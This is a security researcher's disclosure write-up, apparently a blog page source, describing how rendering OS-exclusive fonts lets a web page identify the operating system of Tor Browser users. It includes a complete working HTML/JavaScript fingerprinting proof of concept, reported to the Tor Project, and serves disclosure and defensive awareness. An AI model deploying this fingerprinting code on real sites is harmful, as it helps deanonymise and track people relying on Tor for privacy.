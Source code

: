 ```yaml
---
layout: content
title: 'Detecting Tor Browser platform based on exclusive fonts rendering'
description: 'Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.'
og_image: https://heitorgouvea.me/images/publications/tor-detect-platform/tor-browser-macos.png
---
```


### Summary

Through the rendering of some specific Fonts, I discovered that it is possible to identify operating system from a user behind Tor and after reporting this to the Tor Project I was told that they were already aware of the problem and there are already some implementations to minimize the impact of this vulnerability.

---

### Description

The Tor Browser [[1]](#references) is based on Firefox, with its peculiarities and promises of privacy/digital anonymity [[2]](#references), in addition to all engineering to hide the IP from a user, Tor also promises to combat identifications that are linked to the operating system, such for example: techniques that use JavaScript to capture the screen size and identify a unique feature of it, among others.

However, it's possible to find out the operating system of a person using Tor via a technique that makes use of Fonts "exclusive" to some operating systems.

For example, the font “Lucida Grande” is one of them, which by default is only installed on MacOS, so when an HTML page tries to render it and is successful it can be concluded that that user is using “Tor on a MacOS”, already an example to identify users using “Tor on Windows” would be the font “MS Gothic” among many other examples.

After reporting this problem, I was told that the Tor Project is already aware [[3]](#references) of all of this, and some implementations are already present in the current version of Tor to reduce the impact of this vulnerability and there are also plans for the future so that it ceases to exist for complete. More information about this can be found at: [https://2019.www.torproject.org/projects/torbrowser/design](https://2019.www.torproject.org/projects/torbrowser/design/) [[4]](#references)

---

### Proof of Concept

Exploit:

```html
<html>
    <head>
        <title>PoC Fingerprint</title>
        <meta charset="utf-8"/>
        <style type="text/css">
            body {
                font-family: "Lucida Grande";
            }
        </style>
    </head>
    <body>
        <h1>Hello World</h1>
    </body>
    <script>
        (function (document) {
            var width;
            var body = document.body;
            var container = document.createElement("span");

            container.innerHTML = Array(100).join("wi");
            container.style.cssText = [
                "position: absolute",
                "width: auto",
                "font-size: 128px",
                "left: -99999px"
            ].join(" !important;");

            var getWidth = function (fontFamily) {
                container.style.fontFamily = fontFamily;

                body.appendChild(container);
                width = container.clientWidth;
                body.removeChild(container);

                return width;
            };

            var monoWidth  = getWidth("monospace");
            var serifWidth = getWidth("serif");
            var sansWidth  = getWidth("sans-serif");

            window.isFontAvailable = function (font) {
                return monoWidth !== getWidth(font + ",monospace") ||
                sansWidth !== getWidth(font + ",sans-serif") ||
                serifWidth !== getWidth(font + ",serif");
            };
        })(document);

        if (isFontAvailable("Lucida Grande")) {
            alert("You are using the MacOS plataform");
        }

        else if (isFontAvailable("MS Gothic")) {
            alert("You are using the Windows plataform");
        }

        else {
            alert("You are not using the MacOs/Windows Platform");
        }
    </script>
</html>
```

If you prefer, you can see a live demo [clicking here.](https://heitorgouvea.me/public/payloads/tor-browser-fonts-exploit.html) User identification using Tor on MacOS:

![](/images/publications/tor-detect-platform/tor-browser-macos.png)

User identification using Tor on Windows: 

![](/images/publications/tor-detect-platform/tor-browser-windows.jpeg)

There is a margin of error in this technique, as a user can install fonts that are not the default for an operating system, but an attacker can make use of even more esoteric fonts to minimaze that margin of error.

---

### Impact

With this technique it is possible to identify the operating system of a user who is using Tor. On a website with low traffic volume, this distinction is enough to exclusively track users, already for a website with high traffic, allows you to track users in a unique way in a short period of time.

---

### Conclusion

This vulnerability can be combined with others to develop a profile unique enough to track users on Tor. However, it is reassuring to know that the team behind Tor Browser is extremely agile and is very close to the research community, this certainly helps a lot to minimize the risks around this vulnerability.

---

### References

- [1] [https://www.torproject.org/](https://www.torproject.org/)
- [2] [https://en.wikipedia.org/wiki/Tor_(anonymity_network)](https://en.wikipedia.org/wiki/Tor_(anonymity_network))
- [3] [https://2019.www.torproject.org/projects/torbrowser/design/](https://2019.www.torproject.org/projects/torbrowser/design/)
- [4] [https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097](https://gitlab.torproject.org/tpo/applications/tor-browser/-/issues/18097)
- [5] [https://www.samclarke.com/javascript-is-font-available/](https://www.samclarke.com/javascript-is-font-available/)